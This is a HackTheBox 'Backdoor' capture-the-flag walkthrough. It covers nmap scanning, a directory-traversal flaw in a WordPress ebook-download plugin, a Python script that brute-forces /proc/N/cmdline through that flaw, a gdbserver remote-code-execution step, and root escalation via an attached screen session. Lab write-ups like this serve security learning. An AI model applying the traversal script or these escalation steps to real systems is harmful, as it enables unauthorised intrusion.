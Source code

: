 ```yaml
---
title: HackTheBox - Backdoor 
categories: htb LFI RCE
excerpt: | 
  Backdoor is a easy difficulty Linux machine. 

feature_text: |
  ## Backdoor - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```



### Scanning process
nmap ip:
``` 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

``` 
Starting with port 80... We have to examine what type of service is, so `whatweb 'http://10.10.11.125'` will determine the following steps. 
It is running WordPress, it is known that some directories are abaible like wp-content and specifically `wp-content/plugins`. It is usual that a service like WordPress has some plugins outdate. And it is our case. 
`searchsploit wordpress ebook download` is vulnerable to a Directory traversal attacks.


### Scripting in python
Now it's time to type some code in python to exploit this LFI. There are some path that are interesting to search into, like /proc where are located all active processes and how they were runed.
``` python
#!/usr/bin/python3

from pwn import *
import time, pdb, signal, sys, requests

# Global
main_url = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"

# Ctrl+C
def def_handler(signum, frame):
    print("[!] Saliendo...")
    sys.exit(1)

def bruteForce():
    p1 = log.progress("Brute Force:")
    p1.status("Starting attack")

    s = requests.session()
    time.sleep(2)

    for i in range(1, 1000):
        p1.status("Trying with /proc/%s/cmdline" % str(i))
        
        url = main_url + str(i) + "/cmdline"
        r = s.get(url)
        if( len(r.content) > 82 ):
            print("------------------------------------------------")
            log.info("/proc/%s/cmdline" % str(i))
            print(r.content)
            print("------------------------------------------------")

signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":
    bruteForce()

```
>[*] /proc/858/cmdline
>/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \\;; done'

>[*] /proc/859/cmdline
>/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done'


We found a gdbserver running in port 1337. `searchsploit gdbserver` and follow the RCE attack. You will be 'user'


### Privilege scalation
Finally we have to search  SUID privilege and there would be some ways to go to /root. This time we can see `/usr/bin/screen` and we saw the cmdline of this process before...
There is a session named as root that we can use. `screen -x root/`. It is all, you are root!
